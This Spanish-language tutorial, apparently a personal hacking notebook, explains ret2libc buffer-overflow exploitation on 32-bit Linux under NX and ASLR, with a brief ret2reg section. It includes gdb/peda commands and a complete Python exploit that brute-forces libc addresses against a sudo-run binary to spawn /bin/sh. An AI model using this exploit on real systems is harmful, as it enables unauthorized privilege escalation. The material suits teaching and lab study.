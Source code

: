 -----
- Tags: #teoria #practica #avanzado 
-----

# ¿ Que es un **ret2libc** ?

Cada vez que nos encontramos con un programa en C que utiliza funciones típicas como printf, scanf, put, etc. todas estas son compiladas en un solo archivo que es la librería estándar de C o **libc**. 
**Ret2libc** es una técnica que se basa en ejecutar código que no se encuentra en la pila sino en un sector de la memoria de libc, que es ejecutable. Es decir, el código utilizado para vulnerar el programa son funciones dentro de esta librería. 

---- 

# Buffer Overflow ret2libc x86 linux

En esta ejemplo nos podríamos enfrentar a un binario vulnerable a buffer overflow en un sistema de 32 bits con **protecciones activas** (NX) y **ASLR activado** (Aleatoriedad den la disposición del espacio de direcciones, es decir un técnica de seguridad informática). 

Como debugger usaremos la herramienta **gdb** (`sudo apt install gdb`) y lo fusionaremos como un script llamado [peda](https://github.com/longld/peda) (El cual cumple la misma función que *mona* en el Immunity Debugger). 

El proceso para explotar el Buffer Overflow es lo mismo de siempre pero con algunas variaciones, en este caso el binario contara con una protección de tipo *NX* lo que nos impide capturar el registro **EIP** para apuntar al registro **ESP** donde en el **stack** estará nuestro **shellcode**, debido a que NX deriva de No Execution, y nos impide poder ejecutar nuestro shellcode almacenado en la pila. 

Por lo que el proceso inicial es el mismo de siempre, primero tenemos que capturar el **offset**: 

```bash
# Ejecutamos el binario con el debugger gdb en modo "quiet"
gdb {binary} -q 
# Creamos un pattern para sobrescribir la pila y posteriormente sacar nuestro offset 
patter_create {size}
# Corremos el binario con el output "malicioso"
r {patter_created}
# Una vez sobrescrito los registros del sistema, calculamos el offset en base al valor almacenado en el registro EIP 
pattern offset $eip 
```

Una vez con el offset, podríamos verificar si existen protecciones para este binario: 

```bash
# Una vez en gdb: 
checksec 
```

En este ejemplo, contamos con un binario el cual tiene la protección **NX** activada, por lo que podemos empezar a pensar en un **ret2libc**, mediante la captura del registro **EIP**, este tiene que apuntar a la dirección de **system**, **exit** y el string **bin sh**.

Pero para esto, debemos primeramente determinar si el **ASLR** esta habilitado: 

```bash
# Ver librerias compartidas del binario utilizado
ldd {binary}
#  Quedarnos con la dirección de memoria de la librería libc 
ldd {binary} | grep libc | awk 'NF{print $NF}' |  tr -d '()'
# Con esto, podríamos ver si ejecutamos 10, 20 u x veces esto comando, si las mismas cambian, en caso de que las direcciones cambien quiere decir que el ASLR esta habilitado: 
for i in $(seq 1 20); do ldd {binary} | grep libc | awk 'NF{print $NF}' | tr -d '()'; done 

# Otra manera de ver si el ASLR esta activado o no es: 
cat /proc/sys/kernel/randomize_va_space

```

En caso de que el **ASLR** este desactivado, las direcciones de memoria de las funciones **system**, **exit** y la cadena **bin sh** se pueden sacar con *peda* desde el propio binario siendo estas estáticas: 

```bash
# Ver funciones disponibles
info functions 
# Meter breakpoint en la función main
b *main
# Ejecutar el programa con cualquier cosa para que cuando se ejecute se detenga en el comienzo debido al breakpoint
r 'AAAAAAAAAAAAAAAAAA'
# Ahora podemos realizar consultas...
# Mostrar la dirección de system 
p system 
# Mostrar la dirección de exit
p exit 
# Buscar la cadena "bin sh"
find "/bin/sh"
```

Con dichas direcciónes podríamos realizar el Buffer Overflow ingresando la cantidad de caracteres necesarios según el **offset**, para posteriormente una vez controlado el registro **EIP** apuntar a la dirección de **system**, luego **exit** y **"/bin/sh"**. 

Ahora, en caso de que el **ASLR** este activado, las direcciones de memoria cambian constantemente, esto complica la labor del atacante, PERO, en maquinas *x86* las direcciones no son muy largas, por lo que si ejecutamos 1000+ veces el comando, pueden existir coincidencias, es decir, que al ser direcciones al no ser muy grandes muchas veces  las direcciones coincidirán entre si, es decir, debemos hacer uso de la *fuerza bruta*.

Ejecutando muchas veces el binario hasta que **libc** valga una dirección, una vez que coincida la dirección *base* de **libc** deberíamos calcular las distancias para llegar a las direcciones reales de **system**, **exit** y **"/bin/sh"**. 

Como dijimos, en este caso deberíamos tomar una dirección random de la librería **libc** para que con esta junto a los **offset** de las funciones mencionadas, calcular el espacio real en memoria: 

```bash
# Capturar una dirección de memoria base de libc 
ldd {binary} | grep libc | awk 'NF{print $NF}' | tr -d '()' 
# Instalar binutils para poder usar una herramienta para sacar los offset de las funciones 
sudo apt install binutils
# Hacer uso de "readelf" para obtener información de binarios elf (Listar la tabla de simbolos )
ldd {binary}
# stdout: 
#      linux-gate.so.1 =>  (0xb774a000)
#	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7588000)
#	/lib/ld-linux.so.2 (0xb774b000)

# libc_path = /lib/i386-linux-gnu/libc.so.6) 
# Obtener offset de las funciones para sumarselos a la direccion base de libc
readelf -s {libc_path} | grep -E " system| exit"

# Obtener el offset de la cadena "/bin/sh"
strings -a -t x {libc_path} | grep "/bin/sh"
```

De esta manera, una vez obtenidas las direcciones, simplemente deberíamos sumarlas a la dirección base de *libc* y tendríamos el **buffer overflow x86 linux ret2libc** 

#### exploit.py
```python
#!/usr/bin/python3

import subprocess, sys
from struct import pack

# Global Vars

# ret2libc ---> system + exit + /bin/sh

offset = 112
before_eip = b"A"*offset

# BASE_LIBC_ADDR:
# ldd {binary} | grep libc | awk 'NF{print $NF}' | tr -d '()'
# b75db000
base_libc_addr = 0xb75db000

# SYSTEM_ADDR_OFF & EXIT_ADDR_OFF:
# dobliuw@ubuntu:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E ' exit| system'
#   141: 0002e9e0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
#  1457: 0003adb0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

# "BIN_SH_OFF:
# strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
# 15bb2b /bin/sh

# OFFSET DE LAS FUNCIONES:
system_addr_off = 0x0003adb0
exit_addr_off = 0x0002e9e0
bin_sh_off = 0x0015bb2b

# CALCULO DE LAS DIRECCIÓNES REALES:
system_addr = pack("<L", base_libc_addr + system_addr_off)
exit_addr = pack("<L", base_libc_addr + exit_addr_off)
bin_sh = pack("<L", base_libc_addr + bin_sh_off)

payload = before_eip + system_addr + exit_addr + bin_sh


def exploit():
	while True:
		result = subprocess.run(["sudo", "/usr/bin/custom", payload])
		if result.returncode == 0:
			print("\n\n\t[!] Quiting...\n\n")
			sys.exit(0)


if __name__ == "__main__":
	exploit()
```

----

# Ret2reg

Adicionalmente, algo que de podría haber intentado en este caso, es un **ret2reg**, es decir **retornar a un registro**. Muchas veces, antes de realizar un *ret2libc* y realizar fuerza bruta en caso de que el sistema tenga el **ASLR** activado, podríamos intentar hacer uso de esta técnica la cual consiste en hacer que el registro *EIP* valga una dirección en memoria perteneciente al **opcode CALL EAX** , el cual así como JMP ESP es un OpCode el cual conduce el flujo del programa al registro ESP, el CALL EAX conduce el flujo del programa al registro **EAX**. 

En algunos casos, al sobrescribir el búfer, se puede generar el caso en el que el inicio de nuestra cadena ingresada comience por el registro EAX, siendo este caso un buen momento para pensar en **ret2reg**, donde si contamos con la suerte de que el binario vulnerable contenga direcciónes de CALL EAX al estar alojadas en el propio binario, estas son *estáticas*. 

```bash
# Listar información de los registros con gbd
i r 
info registers
# Listar 16 palabras de un registro (Ej, eax) con gdb
x/16wx $eax 
```

#### Obtener el OpCode de **CALL EAX**: 
```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
# nasm > CALL EAX 
# 00000000  FFD0              call eax
```

#### Verificar si se aloja el OpCode **CALL EAX** en el binario: 
```bash
objdump -d {binary} | grep -i "FF D0"
```

